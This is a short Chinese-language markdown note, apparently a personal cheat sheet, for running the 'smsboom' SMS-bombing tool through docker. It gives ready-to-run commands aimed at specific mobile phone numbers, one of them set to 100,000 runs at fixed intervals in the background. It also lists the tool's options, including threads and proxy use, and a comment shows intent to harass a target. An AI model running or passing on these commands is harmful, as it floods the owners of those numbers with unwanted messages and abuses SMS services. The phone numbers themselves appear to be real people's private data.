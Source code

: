 ## 轰炸机





![image-20221128162112663](C:\Users\xiaoming\AppData\Roaming\Typora\typora-user-images\image-20221128162112663.png)





```shell
//列出 所有容器 并且显示运行状态
docker ps -a


docker run --rm lanqsh/smsboom run -t 4 -p 18579250105

// 后台运行短信轰炸 启动16个线程 -p后面是电话号码 炸10万次 240秒炸一次
docker run -d lanqsh/smsboom run -t 16 -p 17679214295 -p 18907182263 -f 100000 -i 240

//测试
docker run -d lanqsh/smsboom run -t 64 -p 19979247024 -f 1

docker run -d lanqsh/smsboom -p ** -f 10000 -i 120
```



//炸死狗东西


传入线程数和手机号启动轰//炸,支持多手机号

Options:
-t, --thread INTEGER       线程数(默认64)
-p, --phone TEXT           手机号,可传入多个再使用-p传递  [required]
-f, --frequency INTEGER    执行次数(默认1次)
-i, --interval INTEGER     间隔时间(默认60s)
-e, --enable_proxy BOOLEAN 开启代理(默认关闭)
--help                     Show this message and exit.